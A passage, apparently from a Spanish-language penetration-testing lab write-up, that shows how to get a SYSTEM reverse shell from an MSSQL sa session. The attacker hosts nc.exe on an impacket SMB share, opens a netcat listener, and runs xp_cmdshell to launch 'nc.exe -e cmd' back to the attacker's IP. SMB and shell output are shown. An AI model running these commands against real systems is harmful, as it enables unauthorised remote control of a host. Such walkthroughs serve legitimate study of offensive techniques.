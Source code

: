 Levantemos el **servidor SMB** en nuestro directorio de trabajo:
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID ...
...
```

Recuerda abrir una **netcat** con **rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Ejecutemos el binario de manera remota, invocándolo como recurso compartido:
```batch
SQL (sa  dbo@master)> xp_cmdshell "\\Tu_IP\smbFolder\nc.exe -e cmd Tu_IP 443"
output   
------   
NULL
```

Observa lo que pasa en nuestro **servidor SMB**:
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
...
...
...
[*] Incoming connection (192.168.1.150,49741)
[*] AUTHENTICATE_MESSAGE (\,DESKTOP-M464J3M)
[*] User DESKTOP-M464J3M\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[-] Unknown level for query path info! 0x3b
[-] Unknown level for query path info! 0xf
```

Y observa la **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.150] 49742
Microsoft Windows [Versi�n 10.0.19045.2965]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>whoami
whoami
nt authority\system
```
